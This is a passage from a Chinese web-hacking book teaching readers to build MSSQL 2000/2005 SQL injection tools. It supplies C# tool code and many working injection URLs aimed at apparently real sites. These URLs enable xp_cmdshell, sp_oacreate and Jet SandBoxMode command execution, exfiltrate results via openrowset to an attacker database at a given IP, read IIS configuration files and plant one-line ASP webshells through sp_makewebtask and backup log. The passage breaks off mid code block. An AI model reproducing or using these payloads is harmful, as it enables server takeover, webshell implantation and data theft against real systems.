union 查询的执行过程和错误提示十分地相似，唯一的不同就是在得到返回的结果时，这里用到了 union 查询，而不是通过错误提示把结果显示在页面中。过程如下：创建一个数据表，保存执行命令的回显结果，把 xp_cmdshell 执行命令返回的结果插入到创建的表中，利用 union 查询出表中执行命令返回结果的内容。

我们看一下 xp_cmdshell 执行命令的代码，具体代码如下：

```csharp
// xp_cmdshell 执行命令的功能模块
case "xp_cmdshell":
    getUrl(my_getUrl + ";drop table [poopoopoo].create table [poopoopoo]([resulttxt] nvarchar(4000) null);insert into [poopoopoo](resulttxt) exec master..xp_cmdshell '" + comboBox_command.Text.Trim() + "';alter table [poopoopoo] add id int not null identity (1,1)--");
    myQueryUrl = my_checkUrl;
    for (int i = 1; i < my_disField; i++)
    {
        myQueryUrl = myQueryUrl + "null,";
    }
    myQueryUrl = myQueryUrl + "char(94)%2Bchar(94)%2Bchar(94)%2Bcast(count(*) as nvarchar(100))%2Bchar(94)%2Bchar(94)%2Bchar(94)%2Bchar(94)%2Bchar(94),";
    for (int i = my_disField + 1; i < my_fieldNum; i++)
    {
        myQueryUrl = myQueryUrl + "null,";
    }
    myQueryUrl = myQueryUrl + "null from [poopoopoo] where resulttxt is not null--";

    string resultNum = getUnionContent(myQueryUrl);
    for (int i = 1; i <= Int32.Parse(resultNum); i++)
    {
        myQueryUrl = my_checkUrl;
        for (int ii = 1; ii < my_disField; ii++)
        {
            myQueryUrl = myQueryUrl + "null,";
        }
        myQueryUrl = myQueryUrl + "(select top 1 char(94)%2Bchar(94)%2Bchar(94)%2Bresulttxt%2Bchar(94)%2Bchar(94)%2Bchar(94)%2Bchar(94)%2Bchar(94) from (select top " + i + " id,resulttxt from [poopoopoo] where resulttxt is not null order by 1) t order by 1 desc),";
        for (int iii = my_disField + 1; iii < my_fieldNum; iii++)
``````csharp
{
    myQueryUrl = myQueryUrl + "null,";
}
myQueryUrl = myQueryUrl + "null---";
string resulttxt = getUnionContent(myQueryUrl);
richTextBox_cmdResult.Text = richTextBox_cmdResult.Text + resulttxt + "\r\n";
}
MessageBox.Show("执行完毕");
break;
```

双击“执行命令”按钮，编辑 `button_run_Click()` 函数代码，实现异步调用 `execCommand()` 函数的功能，具体代码如下：

```csharp
private void button_run_Click(object sender, EventArgs e)
{
    DelegateToExecCommand delHTStartGuess = new DelegateToExecCommand(execCommand);
    AsyncCallback callBackWhenDone = new AsyncCallback(EndexecCommand);
    delHTStartGuess.BeginInvoke(callBackWhenDone, null);
}
```

（详细代码参见光盘实例9源程序）

最后按 Ctrl+F5 编译运行。在注入点处输入需要检测的 URL，检测出注入类型和数据库。然后在执行组件后面选择要执行命令的方法 xp_cmdshell，单击“执行命令”按钮，返回结果如图64所示。


图64 利用 xp_cmdshell 执行命令

sp_oacreate、SQL 代理服务、SandBoxMode 等和错误提示开启下执行命令的方法是一样的，只是最后返回结果的时候用 union 查询出来。大家可以参照错误提示开启下的代码，结合 union 查询 xp_cmdshell 执行的代码，完成其他三种方法的代码。

## 4 MSSQL2000高级注入技巧

### 4.1 404页面获取返回结果

当我们遇到一个 sa 注入点，mssql 错误提示关闭并且不支持 union 查询的时候，我们可以巧妙利用 404 页面得到执行命令的返回结果。

当我们访问一个网站中不存在的某个页面时，IIS 默认会重定向到一个 404 错误页面，Windows 系统中 404 页面的默认路径是 `C:\Windows\Help\iisHelp\common\404b.htm`。我们在注入的时候可以把执行命令的结果写入到这个文件，然后任意访问一个不存在的页面，就会显示出我们成功执行的结果来。

例如，`http://www.xxx.com/gl/photo.aspx?yy_id=A6EEBFEF-EEB3-47C9-AF88-DC1A9F045C2A` 是一个 sa 权限字符型注入点，Web 和 data 服务器在同一台机器，我们提交：

```sql
http://www.xxx.com/gl/photo.aspx?yy_id=A6EEBFEF-EEB3-47C9-AF88-DC1A9F045C2A';EXEC master..xp_cmdshell 'ver >C:\Windows\Help\iisHelp\common\404b.htm'--
```

然后访问一个不存在的地址 `http://www.xxx.com/111.htm`，默认情况下就会看到我们执行返回的结果。

此外，我们还可以利用 404 页面读取任意文件的内容，只要我们在注入点后执行：

```sql
;EXEC master..xp_cmdshell 'copy filename C:\Windows\Help\iisHelp\common\404b.htm'--
```

我们提交：

```sql
http://www.xxx.com/gl/photo.aspx?yy_id=A6EEBFEF-EEB3-47C9-AF88-DC1A9F045C2A';EXEC master..xp_cmdshell 'copy C:\Winnt\system32\inetsrv\MetaBase.xml C:\Winnt\Help\iisHelp\common\404b.htm'--
```

可以得到 MetaBase.xml 文件的内容。MetaBase.xml 是 IIS 的配置信息文件，里面包含了 Web 路径等信息。

#### 4.2 openrowset 返回查询结果

我们也可以通过 openrowset 把执行命令、列目录、获取数据库信息的内容读取到我们自己本地的 SQL 数据库表中。

例如，我们想把 xp_dirtree 存储过程返回的目录结果读取到本地的 SQL 数据库中。首先在本地先建一个数据表：

```sql
create table dirtree (name varchar(30), num int)
```

接着建立一个数据表 tmp，保存 xp_dirtree 列目录的结果：

```sql
drop table tmp;
create table tmp(name varchar(30), num int);
```

把 xp_dirtree 返回的结果写入到数据表中，这里代表列出 D 盘下所有一级文件目录结构（不包括文件）：

```sql
insert into tmp exec master..xp_dirtree 'd:\',1;
```

把 tmp 表中的内容读取到我们本地的数据库表 dirtree 中，124.78.165.151 为我们本地 SQL 数据库的地址，sa 为用户名，123456 为密码：

```sql
insert into openrowset('sqloledb','124.78.165.151';'sa';'123456','select * from dirtree') select * from tmp;--
```

然后本地查询 dirtree 就能看到返回的内容了：

```sql
select * from dirtree
```

我们提交：

```text
http://210.xx.xx.190/bbs/content_news.aspx?forum_id=10002&title_id=4397; drop table tmp;create table tmp(name varchar(30),num int);--
```

返回结果图65所示。


```text
http://210.xx.xx.190/bbs/content_news.aspx?forum_id=10002&title_id=4397; insert into tmp exec master..xp_dirtree 'd:\',1;--
```

返回结果图66所示。


```text
http://210.xx.xx.190/bbs/content_news.aspx?forum_id=10002&title_id=4397; insert into openrowset('sqloledb','124.78.165.151';'sa';'123456','select * from dirtree') select * from tmp;--
```

返回结果图67所示。


然后我们本地查看 dirtree 表的内容，就能得到目录信息了，如图68所示。

结合前面的内容，我们同样可以利用 openrowset 返回执行命令的结果、读取数据库中的记录内容等。

#### 4.3 快速查找指定目录


我们在利用 xp_dirtree 列目录查找 Web 路径的时候，经常会逐层地去读取每个目录的结构，如果服务器目录结构比较复杂，需要浪费很多时间。我们可以构造合适的 SQL 语句直接查找指定目录在服务器上的位置，这样可以大大提高效率。

我们以查找 C 盘下 windows 目录为例，快速查找目录。

第一步提交：

```sql
drop table po1s0n;
create table po1s0n
(
    [id] [int] IDENTITY (1,1) NOT NULL,
    [name] [nvarchar] (300) NOT NULL,
    [depth] [int] NOT NULL
);
```

返回如图69所示。

第二步：

```sql
declare @id int, @depth int,
@root nvarchar(300), @name nvarchar(300)
set @root='c:\' -- Start root
set @name='windows' -- directory to find
insert into po1s0n exec master..xp_dirtree @root,0,0
set @id=(select top 1 id from po1s0n where name=@name)
set @depth=(select top 1 depth from po1s0n where name=@name)
delete from po1s0n where id=@id
while @depth<>1
begin
set @id=(select top 1 id from po1s0n where id<@id and depth=(@depth-1) order by id desc)
set @depth=(select depth from po1s0n where id=@id)
set @name=(select name from po1s0n where id=@id)+'\\'+@name
end
insert into po1s0n(name,depth) values(@root+@name,0)
select name from po1s0n where depth=0
```


返回如图70所示。

第三步：

```sql
declare @id int, @depth int,
@root nvarchar(300), @name nvarchar(300)
set @root='c:\' -- Start root
set @name='windows' -- directory to find
set @id=(select top 1 id from po1s0n where name=@name)
set @depth=(select top 1 depth from po1s0n where name=@name)
delete from po1s0n where id=@id
while @depth<>1
begin
set @id=(select top 1 id from po1s0n where id<@id and depth=(@depth-1) order by id desc)
set @depth=(select depth from po1s0n where id=@id)
set @name=(select name from po1s0n where id=@id)+'\\'+@name
end
insert into po1s0n(name,depth) values(@root+@name,0)
select top 1 name from po1s0n where depth=0 order by name desc
```


返回如图71所示。我们重复执行第三步的 SQL 语句，就可以把 C 盘下所有包含 windows 的路径列出来。

也可以用同样的方法来查找 Web 路径，只要在注入后执行相应的 SQL 语句即可。


图71 查找到第二个符合的目录


## 第七章 编写MSSQL2005注入工具

nohack.me

### 1 MSSQL2005注入的基本流程

随着数据库技术的发展，MSSQL2005 逐渐取代了原来 MSSQL2000 的地位，越来越多的网站采用了 MSSQL2005 作为后台数据库系统。我们在平时的注入过程中也会经常遇到 MSSQL2005 的情况，下面就讨论 MSSQL2005 后台数据库的注入方法。

- MSSQL2005 注入攻击的基本流程：
- 第一步：发现存在 SQL 注入漏洞的 Web 页面；
- 第二步：判断后台数据库类型（MS SQL Server 数据库）；
- 第三步：构造 SQL 查询语句确定 mssql 的数据库版本（MSSQL2005）；
- 第四步：构造 SQL 查询语句确定 mssql 当前连接用户的权限（sysadmin、db_owner、public）；
- 第五步：sysadmin 权限注入；
- 第六步：public 权限注入。

由于 MSSQL2005 自身安全性的提高，在 db_owner 权限下的注入方法和 public 权限下的注入方法基本一致。

### 2 MSSQL2005注入功能分析

#### 2.1 错误提示开启下的注入攻击

##### 2.1.1 获取数据库基本信息

MSSQL2005 和 MSSQL2000 的很多内置变量是一样的，我们可以利用这些内置变量来获取数据库服务器的一些基本信息，包括当前连接的用户、当前数据库名、服务器名等。常见的环境变量如下：

| 变量名 | 描述 |
|---|---|
| @@VERSION | 返回当前的 SQL Server 安装版本、处理器体系结构、生成日期和操作系统 |
| user | 返回当前数据库用户名 |
| db_name() | 返回当前数据库名 |
| system_user | 返回系统用户名 |
| host_name() | 得到客户端主机名 |
| @@SERVERNAME | 返回运行 SQL Server 的本地服务器名称，得到服务端主机名 |

例如我们检测到 `http://chat.xxx.cn/wsft/review.aspx?id=1fbec542-e72b-425b-bde4-cba9a415cfae` 存在注入漏洞，数据库为 MSSQL2005。

得到数据库详细版本信息：

```text
http://chat.xxx.cn/wsft/review.aspx?id=1fbec542-e72b-425b-bde4-cba9a415cfae' and @@VERSION>0--
```

返回结果如图1所示。


图1 数据库详细版本信息

得到当前用户信息：

```text
http://chat.xxx.cn/wsft/review.aspx?id=1fbec542-e72b-425b-bde4-cba9a415cfae' and USER>0--
```

返回结果如图2所示，得到当前用户名为 dbo。


图2 当前用户名为 dbo

得到当前系统用户信息：

```text
http://chat.xxx.cn/wsft/review.aspx?id=1fbec542-e72b-425b-bde4-cba9a415cfae' and SYSTEM_USER>0--
```

返回结果如图3所示，得到系统用户名为 yux。


图3 系统用户名为 yux

得到当前连接客户端信息：

```sql
id=1fbec542-e72b-425b-bde4-cba9a415cfae' and HOST_NAME()>0--
```

返回结果如图4所示，得到客户端主机名为 Web1。得到数据库服务端主机名信息：


```sql
http://chat.xxx.cn/wsft/review.aspx?id=1fbec542-e72b-425b-bde4-cba9a415cfae' and @@SERVERNAME>0--
```

返回结果如图5所示，得到服务端主机名为 SQLCLUSTER。

##### 2.1.2 判断当前连接数据库用户的权限

在注入点后添加 `and is_srvrolemember('sysadmin')=1`，返回正常为 sysadmin 权限，也就是我们常说的 sa 权限。在注入点后添加 `and is_member('db_owner')=1`，返回正常为 db_owner 权限。如果上面两种情况都不满足，我们可以归结为 public 权限。

例如，我们提交 `http://01.xxx.com/news.aspx?nid=34 and is_srvrolemember('sysadmin')=1`，返回结果如图6所示；和我们提交 `http://01.xxx.com/news.aspx?nid=34 and 1=1` 返回结果相同，即返回正常页面，说明当前 URL 为 sa 权限的注入点。


## 精通WEB黑客注入编程

据数据库管理员权限，如果拿到了 sa 权限，很容易拿到主机的管理员权限。

##### 2.1.3 sa 权限注入

MSSQL2005 数据库中的 sa 用户也是一个最高权限的用户，拿到了 sa 权限，几乎肯定可以拿到主机的 Administrator 权限。MSSQL2005 通过 sa 权限特有的注入方式我们可以概括为：

- 1) 直接执行系统命令（xp_cmdshell、sp_oacreate、JOB 执行命令、SandBoxMode）。
- 2) sp_makewebtask 直接写文件。

##### 2.1.4 sa 权限执行系统命令

###### xp_cmdshell 执行命令

xp_cmdshell 扩展存储过程是 MSSQL2005 自带的可以执行操作系统命令的存储过程，并以文本行的形式返回所有执行命令的结果。由于 xp_cmdshell 可以执行任何操作系统命令，所以一旦得到了 sa 权限的注入点，那么攻击者就可以利用 xp_cmdshell 在 SQL Server 中执行操作系统命令，如创建系统管理员，也就意味着系统的最高权限已在别人的掌控之中。由于存在安全隐患，在 MSSQL2005 中，xp_cmdshell 默认是关闭的。如果要使用的话就必须先开启 xp_cmdshell，可以直接在注入点后面执行：

```sql
url+;EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE--
```

这样就开启了 xp_cmdshell 扩展存储过程。  
建立一个数据表 poopoopoo（表名可自定义），保存 xp_cmdshell 执行命令返回的结果：

```sql
;drop table [poopoopoo];create table [poopoopoo]([resulttxt] nvarchar(4000) null) --
```

通过 xp_cmdshell 执行 net user 命令显示服务器上的用户信息，这里可以把 net user 换成我们想要执行的命令。insert into 把通过 xp_cmdshell 执行命令返回的结果按行写入到 poopoopoo 表中。

```sql
;insert into [poopoopoo]([resulttxt]) exec master..xp_cmdshell 'net user'---
```

执行完以后，再把执行命令的返回信息通过 poopoopoo 表读取出来回显给我们。  
首先查询 poopoopoo 表中执行命令返回结果的行数：

```sql
and (select char(94)%2Bchar(94)%2Bchar(94)%2Bcast(count(*) as nvarchar(100))%2Bchar(94)%2Bchar(94)%2Bchar(94) from [poopoopoo] where resulttxt is not null)>0---
```

变换 top N 中的 N 查询出 poopoopoo 表中的所有记录，即得到执行命令的返回结果：

```sql
and !(select top 1 char(94)%2Bchar(94)%2Bchar(94)%2Bresulttxt%2Bchar(94)%2Bchar(94)%2Bchar(94) from (select top N resulttxt from [poopoopoo] where resulttxt is not null order by 1) t order by 1 desc)>0---
```

我们通过下面一个例子看如何构造 URL 来执行命令以及返回执行结果。首先开启 MSSQL2005 下的 xp_cmdshell 存储过程：

```sql
http://01.xxx.com/news.aspx?nid=34;EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE--
```

返回结果如图 7 所示。


图 7 开启 MSSQL2005 下的 xp_cmdshell 存储过程

建立一个数据表 poopoopoo，保存 xp_cmdshell 执行命令返回的结果，通过 insert into 把执行命令的结果插入到数据表 poopoopoo 中：

```sql
http://01.xxx.com/news.aspx?nid=34,drop table [poopoopoo],create table [poopoopoo]([resulttxt] nvarchar(4000) null);insert into [poopoopoo](resulttxt) exec master..xp_cmdshell 'net user'--
```

返回结果如图 8 所示。


图 8 把执行命令的结果插入到数据表中

查询 poopoopoo 表中执行命令返回结果的非空行记录数：

```sql
http://01.xxx.com/news.aspx?nid=34 and (select char(94)%2Bchar(94)%2Bchar(94)%2Bcast(count(*) as nvarchar(100))%2Bchar(94)%2Bchar(94)%2Bchar(94) from [poopoopoo] where resulttxt is not null)>0--
```

返回结果如图 9 所示，说明 poopoopoo 表中有 5 条数据，也就是我们通过 xp_cmdshell 执行 net user 命令的回显结果为 5 行。


图 9 net user 命令的回显结果为 5 行

查询出 poopoopoo 表中的第一条记录，执行 net user 返回的一行用户信息，遍历 top 1 到 top 5 就可以得到所有返回内容：

```sql
http://01.xxx.com/news.aspx?nid=34 and (select top 1 char(94)%2Bchar(94)%2Bchar(94)%2Bresulttxt%2Bchar(94)%2Bchar(94)%2Bchar(94) from (select top 1 resulttxt from [poopoopoo] where resulttxt is not null order by 1) t order by 1 desc)>0--
```


图 10 第一条记录信息

返回结果如图 10 所示。

查询出 poopoopoo 表中的第三条记录：

```sql
http://01.heromh.com/news.aspx?nid=34 and (select top 1 char(94)%2Bchar(94)%2Bchar(94)%2Bresulttxt%2Bchar(94)%2Bchar(94)%2Bchar(94) from (select top 3 resulttxt from [poopoopoo] where resulttxt is not null order by 1) t order by 1 desc)>0--
```

返回结果如图 11 所示，得到了“Administrator、Guest、poiS0n”等用户。


图 11 第三条记录信息

###### sp_oacreate 执行命令

MSSQL2005 通过 sp_oacreate 执行命令的过程和 MSSQL2000 是一样的。我们首先需要开启 sp_oacreate 存储过程，可以直接在注入点后面执行：

```sql
url+;exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE;--
```

这样就开启了 sp_oacreate 存储过程。

建立一个数据表 poopoopoo，保存执行命令返回的结果：

```sql
;drop table [poopoopoo];create table [poopoopoo]([resulttxt] nvarchar(4000) null)--
```

通过 sp_oacreate 创建 wscript.shell 对象，执行 ipconfig /all 命令显示服务器 IP 信息。这里可以把 ver 换成我们想要执行的命令，利用“>”把结果写到一个临时文件 poopoopoo.tmp 中：

```sql
;declare @o int exec sp_oacreate 'wscript.shell',@o output exec sp_oamethod @o,'run',null,'c:\windows\system32\cmd.exe /c ipconfig /all > poopoopoo.tmp',0,true--
```

通过 SQL 关键字 “bulk” 把文件中的数据写入到数据表 poopoopoo 中：

```sql
;bulk insert poopoopoo from 'poopoopoo.tmp' with (keepnulls)--
```

首先查询 poopoopoo 表中执行命令返回结果的行数：

```sql
and (select char(94)%2Bchar(94)%2Bchar(94)%2Bcast(count(* ) as nvarchar(100))%2Bchar(94)%2Bchar(94)%2Bchar(94) from [poopoopoo] where resulttxt is not null)>0--
```

变换 top N 中的 N 查询出 poopoopoo 表中的所有记录，即得到执行命令的返回结果：

```sql
and (select top 1 char(94)%2Bchar(94)%2Bchar(94)%2Bresulttxt%2Bchar(94)%2Bchar(94)%2Bchar(94) from (select top " + i + " resulttxt from [poopoopoo] where resulttxt is not null order by 1) t order by 1 desc)>0--
```

我们通过下面一个例子看如何构造 URL 来执行命令以及返回执行结果。首先开启 MSSQL2005 下的 sp_oacreate 存储过程：

```sql
http://01.xxx.com/news.aspx?nid=34;exec sp_configure 'show advanced options',1;RECONFIGURE;exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE;--
```

返回结果如图 12 所示。


建立一个数据表 poopoopoo，保存执行命令返回的结果：

```sql
http://01.xxx.com/news.aspx?nid=34;drop table [poopoopoo];create table [poopoopoo]([resulttxt] nvarchar(4000) null)--
```

返回结果如图 13 所示。


通过 sp_oacreate 创建 wscript.shell 对象，执行 ipconfig /all 命令，利用“>”把结果写到一个临时文件 poopoopoo.tmp 中：

```sql
http://01.xxx.com/news.aspx?nid=34;declare @o int exec sp_oacreate 'wscript.shell',@o output exec sp_oamethod @o,'run',null,'c:\windows\system32\cmd.exe /c ipconfig /all > poopoopoo.tmp',0,true--
```

返回结果如图 14 所示。通过关键字“bulk”把临时文件 **poopoopoo.tmp** 中的数据写入到数据表 **poopoopoo** 中：


```sql
http://01.xxx.com/news.aspx?nid=34;bulk insert poopoopoo from 'poopoopoo.tmp' with (keepnulls)--
```

返回结果如图 15 所示。


```sql
http://01.xxx.com/news.aspx?nid=34 and (select char(94)%2Bchar(94)%2Bchar(94)%2Bcast(count(*) as nvarchar(100))%2Bchar(94)%2Bchar(94)%2Bchar(94) from [poopoopoo] where resulttxt is not null)>0---
```

返回结果如图 16 所示，说明 **poopoopoo** 表中有 30 条数据，也就是我们执行 **ipconfig /all** 命令的回显结果 30 行。

查询出 **poopoopoo** 表中的记录，得到执行命令的结果，遍历 top 1 到 top 30 就可以得到所有返回内容：


```sql
http://01.xxx.com/news.aspx?nid=34 and (select top 1 char(94)%2Bchar(94)%2Bchar(94)%2Bresulttxt%2Bchar(94)%2Bchar(94)%2Bchar(94) from (select top 1 resulttxt from [poopoopoo] where resulttxt is not null order by 1) t order by 1 desc)>0---
```

返回结果如图 17 所示。


###### SandBoxMode（沙盒模式）执行命令

在 MSSQL2000 的注入中，我们先用 **xp_regwrite** 存储过程改写注册表键值 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Jet\4.0\Engines\SandBoxMode` 为 0，然后利用 OpenRowSet 访问一个系统本身自带的 ACCESS 数据库文件，再执行运行命令的 SQL 语句，就可以执行操作系统命令了。在 MSSQL2005 中默认 openrowset 是关闭的，在使用前我们需要手动开启，可以直接在注入点后面执行：

```sql
url+;EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'Ad Hoc Distributed Queries',1;RECONFIGURE--
```

这样就开启了 openrowset。  
将 SandBoxMode 开关的注册表值修改为 0：

```sql
;exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;--
```

通过 OpenRowSet，连接到一个数据库中。这里我们打开 Jet 引擎连接到一个 Access 数据库。Windows 系统目录下本身存在的数据库 C:\WINNT\system32\ias\dnary.mdb（windows2000）或 C:\WINDOWS\system32\ias\ias.mdb（windows2003）：

```sql
;select * from openrowset('microsoft.jet.oledb.4.0',';database=C:\WINDOWS\system32\ias\dnary.mdb','select shell("c:\windows\system32\cmd.exe /c net user >poopopoo.tmp")');--
```

通过 SQL 关键字 “bulk” 把文件中的数据写入到数据表 poopoopoo 中：

```sql
;bulk insert poopoopoo from 'poopoopoo.tmp' with (keepnulls)--
```

首先查询 poopoopoo 表中执行命令返回结果的行数：

```sql
and (select char(94)%2Bchar(94)%2Bchar(94)%2Bcast(count(*) as nvarchar(100))%2Bchar(94)%2Bchar(94)%2Bchar(94) from [poopoopoo] where resulttxt is not null)>0--
```

变换 top N 中的 N 查询出 poopoopoo 表中的所有记录，即得到执行命令的返回结果：

```sql
and (select top 1 char(94)%2Bchar(94)%2Bchar(94)%2Bresulttxt%2Bchar(94)%2Bchar(94)%2Bchar(94) from (select top '"+i+"' resulttxt from [poopoopoo] where resulttxt is not null order by 1) t order by 1 desc)>0--
```

我们通过下面一个例子看如何构造 URL 来执行命令以及返回执行结果。  
首先开启 openrowset：

```sql
http://01.xxx.com/news.aspx?nid=34;EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'Ad Hoc Distributed Queries',1;RECONFIGURE--
```

返回结果如图 18 所示。


将 SandBoxMode 开关的注册表值修改为 0：

```sql
http://01.xxx.com/news.aspx?nid=34;exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;--
```

返回结果如图 19 所示。通过 OpenRowSet，连接到一个数据库中，执行命令，把返回结果写入到一个临时文件 poopoopoo.tmp 中：


图 19 修改 SandBoxMode 值为 0

```sql
http://01.xxx.com/news.aspx?nid=34;select * from openrowset('microsoft.jet.oledb.4.0','database=C:\\WINDOWS\\system32\\ias\\dnary.mdb';'select shell("c:\\windows\\system32\\cmd.exe /c ver > poopoopoo.tmp")')--
```


图 20 写入到临时文件

返回结果如图 20 所示。建立一个数据表 poopoopoo，保存执行命令返回的结果：

```sql
http://01.xxx.com/news.aspx?nid=34;drop table [poopoopoo],create table [poopoopoo]([resulttxt] nvarchar(4000) null)--
```

通过 SQL 关键字“bulk”把文件中的数据写入到数据表 poopoopoo 中：

```sql
http://01.xxx.com/news.aspx?nid=34;bulk insert poopoopoo from 'poopoopoo.tmp' with (keepnulls)--
```


图 21 写入到数据表

返回结果如图 21 所示。查询 poopoopoo 表中执行命令返回的结果的行数：

```sql
http://01.xxx.com/news.aspx?nid=34 and (select char(94)%2Bchar(94)%2Bchar(94)%2Bcast(count(*) as nvarchar(100))%2Bchar(94)%2Bchar(94)%2Bchar(94) from [poopoopoo] where resulttxt is not null)>0--
```


图 22 ver 命令的回显结果

返回结果如图 22 所示，说明 poopoopoo 表中有 1 条数据，也就是我们执行 ver 命令的回显结果。查询出 poopoopoo 表中的记录，得到执行命令的结果：

```sql
http://01.xxx.com/news.aspx?nid=34 and (select top 1 char(94)%2Bchar(94)%2Bchar(94)%2Bresulttxt%2Bchar(94)%2Bchar(94)%2Bchar(94) from (select top 1 resulttxt from [poopoopoo] where resulttxt is not null order by 1) t order by 1 desc)>0--
```

返回结果如图 23 所示。


图 23 得到系统版本信息

##### 2.1.5 sp_makeWebtask 写文件

在 MSSQL2000 中我们可以利用 sp_makeWebtask 直接在 Web 目录里写入一句话的 WebShell，在 MSSQL2005 中同样可以。需要 sa 权限和站点的 Web 物理路径，并且 Web 服务器和数据库服务器是同一台机器才能直接写入。写入木马的语句：

```sql
;exec sp_makeWebtask 'd:\xxx\xxx\XXX.asp','select ''<%25execute(request("cn"))%25>'' '--
```

select 中的双单引号起着重定义的作用。

##### 2.1.6 backup log 获得 WebShell

在 MSSQL2000 中我们介绍了一种写文件的方法，通过备份得到 WebShell。在 MSSQL2005 中同样可以，只是由于在 MSSQL2005 中 DB_OWNER 权限无法利用 xp_dirtree 列出 Web 目录，所以只能在 sa 权限下才能很容易地找到网站的物理路径，备份得到 WebShell 才能发挥出原有的作用。

首先需要得到网站的数据库名和 Web 的物理路径，数据库名为 sq_ajaxcn，网站物理路径为 d:\wwwroot\leiyangcl\wwwroot\BBS\：

```sql
;alter database [sq_ajaxcn] set recovery full--
;backup database [sq_ajaxcn] to disk='c:\potmp' with init--
;create table [potmp]([cmd image])--
;backup log [sq_ajaxcn] to disk='c:\potmp' with init--
;insert into [potmp]([cmd]) values(0x3C25657865637574652072657175657374286368722833352929253E)--
```

其中“0x3C25657865637574652072657175657374286368722833352929253E”是一句话木马“<%execute request(chr(35))%>”的十六进制表示形式。

```sql
;backup log [sq_ajaxcn] to disk='d:\wwwroot\leiyangcl\wwwroot\BBS\111.asp' with init--
;drop table [potmp]--
;backup log [sq_ajaxcn] to disk='c:\potmp' with init--
```

##### 2.1.7 public 权限注入

对于 MSSQL2005 中 public 权限，典型的利用方式也是猜解数据库中的信息。

###### 猜解数据库

猜解数据库个数：

```sql
and (select char(94)%2bcast(count(name) as nvarchar(4000))%2bchar(94) from [master].[dbo].[sysdatabases])>0--
```

猜解数据库名字，变换 top N 中的 N，遍历出所有可用数据库名：

```sql
and (select top 1 cast([name] as nvarchar(500)) from [master].[dbo].[sysdatabases] where dbid in (select top N dbid from [master].[dbo].[sysdatabases] order by dbid desc))>0--
```

我们通过下面一个例子看如何构造 URL 来遍历出数据库名字。

猜解可用数据库个数：

```sql
http://www.xxx.net.cn/BBS/Default.aspx?Category=D927A416-93CE-4735-9C42-35F01F3B0957' and (select char(94)%2bcast(count(name) as nvarchar(4000))%2bchar(94) from [master].[dbo].[sysdatabases])>0--
```

返回结果如图 24 所示，说明存在 191 个可用的数据库。


猜解数据库名字：

```sql
http://www.xxx.net.cn/BBS/Default.aspx?Category=D927A416-93CE-4735-9C42-35F01F3B0957' and (select top 1 cast([name] as nvarchar(500)) from [master].[dbo].[sysdatabases] where dbid in (select top 1 dbid from [master].[dbo].[sysdatabases] order by dbid desc))>0--
```

返回结果如图 25 所示，第一个数据库名字为 sq_daren007。我们遍历 top 1 到 top 191，就可以得到全部 191 个数据库的名字了。


###### 猜解数据库中的数据表

在得到了某个数据库以后，需要猜解数据库中的数据表有哪些。在 MSSQL2005 中，某个数据库的数据表相关信息保存在 all_objects 系统表中。我们通过遍历 all_objects 系统表的 name 字段猜解数据表。

得到 database_name 数据库中表的个数：

```sql
and (select char(94)%2bcast(count(name) as nvarchar(4000))%2bchar(94) from database_name.sys.all_objects where type=char(85))>0--
```

猜解 database_name 数据库中的表名，变换 top N 中的 N 查询出所有数据表名：

```sql
and (select top 1 cast(name as varchar(200)) from (select top 1 name from database_name.sys.all_objects where type=char(85) order by name) t order by name desc)>0--
```

我们通过下面一个例子看如何构造 URL 来遍历出 sq_ajaxcn 数据库中的所有用户表的名字。我们提交：

```sql
http://www.xxx.net.cn/BBS/Default.aspx?Category=D927A416-93CE-4735-9C42-35F01F3B0957' and
(select char(94)%2bcast(count(name) as nvarchar(4000))%2bchar(94) from sq_ajaxcn.sys.all_objects where type=char(85))>0--
```

返回结果如图 26 所示，说明 sq_ajaxcn 数据库存在 25 个可用的数据表。


图 26 sq_ajaxcn 数据库存在 25 个可用数据表

```sql
http://www.xxx.net.cn/BBS/Default.aspx?Category=D927A416-93CE-4735-9C42-35F01F3B0957' and
(select top 1 cast(name as varchar(200)) from (select top 1 name from sq_ajaxcn.sys.all_objects where type=char(85) order by name) t order by name desc)>0--
```

说明 sq_ajaxcn 数据库第一个数据表为 AJAX_DemoRequestHistory。我们遍历 top 1 到 top 25，就可以得到全部 25 个数据表的名字了。

###### 猜解列名

我们想得到 database_name 数据库中 table_name 表的所有列，首先要得到 table_name 表的对象 id：

```sql
and (select char(94)%2Bchar(94)%2Bchar(94)%2Bcast(id as nvarchar(100))%2Bchar(94)%2Bchar(94)%2Bchar(94) from [database_name].[sys].[sysobjects] where xtype='u' and name='table_name')>0--
```

得到 table_name 数据表中列名的个数：

```sql
and (select char(94)%2Bchar(94)%2Bchar(94)%2Bcast(count(name) as nvarchar(100))%2Bchar(94)%2Bchar(94)%2Bchar(94) from [database_name].[sys].[syscolumns] where id='tableId')>0--
```

猜解 table_name 数据表中的列名，变换 top N 中的 N，查询出数据表中所有列名：

```sql
and (select top 1 char(94)%2Bchar(94)%2Bchar(94)%2Bcast([name] as nvarchar(4000))%2Bchar(94)%2Bchar(94)%2Bchar(94) from (select top N name from [database_name].[sys].[syscolumns] where id='tableId' order by 1) t order by 1 desc)>0--
```

我们通过下面一个例子看如何构造 URL 来遍历出 sq_ajaxcn 数据库中的 aspnet_Users 表的所有列名。我们提交：

```sql
http://www.xxx.net.cn/BBS/Default.aspx?Category=D927A416-93CE-4735-9C42-35F01F3B0957' and (select char(94)%2Bchar(94)%2Bchar(94)%2Bcast(id as nvarchar(100))%2Bchar(94)%2Bchar(94)%2Bchar(94) from [sq_ajaxcn].[sys].[sysobjects] where xtype='u' and name='aspnet_Users')>0--
```

返回结果如图 27 所示，说明 aspnet_Users 表的对象 ID 为“37575172”。


图 27 aspnet_Users 表的对象 ID 为“37575172”

```sql
